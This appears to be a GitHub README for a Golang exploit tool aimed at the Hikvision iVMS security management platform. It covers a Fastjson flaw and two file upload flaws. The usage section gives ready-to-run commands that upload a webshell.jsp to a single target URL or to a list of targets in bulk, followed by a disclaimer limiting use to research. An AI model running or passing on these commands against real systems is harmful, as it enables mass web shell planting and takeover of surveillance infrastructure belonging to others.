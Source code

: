 # Hikvision_IVMS_Exp
海康威视IVMS 综合安防管理平台 漏洞利用脚本，包含Fastjson，以及两个文件上传漏洞、

本项目属于是初次学习Golang的练手小项目, 不喜误喷, 如果感觉用着可以不妨来个Start 这是我更新最大的动力
# 使用方法
单个目标
```
./Exploit -u http://x.x.x.x -v Hikvision -w webshell.jsp
```
多个目标
```
./Exploit -f url.txt -v Hikvision -w webshell.jsp

url.txt内容为
http://x.x.x.x
https://x.x.x.x
```
检测某一个漏洞
```
./Exploit -u http://x.x.x.x -v Hikvision_ivms_upload1 -w webshell.jsp
```

# 注 意
本仓库分享的安全工具，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者无关。
